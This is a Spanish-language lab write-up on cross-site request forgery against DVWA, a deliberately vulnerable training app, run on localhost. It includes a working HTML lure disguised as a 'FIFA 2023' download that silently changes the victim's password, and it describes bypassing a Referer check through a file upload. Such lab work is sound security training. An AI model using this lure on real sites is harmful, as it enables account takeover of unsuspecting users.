 poner en nivel Low # CSRF
El cross-site request forgery (CSRF) consiste en realizar tareas dentro de una aplicación por medio de la ejecución de un enlace en el navegador de la víctima. \
Se envía un enlace que se crea a partir de una petición que contiene la acción maliciosa planeada por el atacente. \
El siguiente códio HTML contiene la acción maliciosa que cambiará la contraseña automáticamente a (12345) al pinchar en el enlace.
## Nivel: Low
```
<!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=dwvice-width, initial-scale=1.0">
	<title>Document</title>
</head>
<body>
	<h3>Click to download FIFA 2023</h3>
	<a href="http://localhost/DVWA/vulnerabilities/csrf/?password_new=12345&password_conf=12345&Change=Change#">FIFA 2023</a>
</body>
</html>
```
![Inicio CSRF](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/CSRF_cambio_contrase%C3%B1a.png) \
Como se ve en la imagen, en la barra de direcciones aparece la contraseña que el usuario ha cambiado "perico", que luego cambia el atacante con su código malicioso.

![Enlace malicioso](https://github.com/PPS11148274/apache_hardening/blob/main/DVWA/cross_site/asset/enlace_malicioso.png)
## Nivel: Medium

El nuevo código comprueba si la cabecera HTTP-Referer coincide con el nombre del servidor (es decir, la petición HTTP «procede» del mismo servidor que la página recién solicitada). Si es así, asume que la petición es válida y continúa. En caso contrario, produce un error. \
Para solucionar esta protección se puede averiguar el "referer" usando **Burp Suite**, pero lo que se hará aquí,
es cargar el archivo fifa.html desde "File Upload" y ejecutarlo después. (se debe poner el nivel Low para cargarlo).
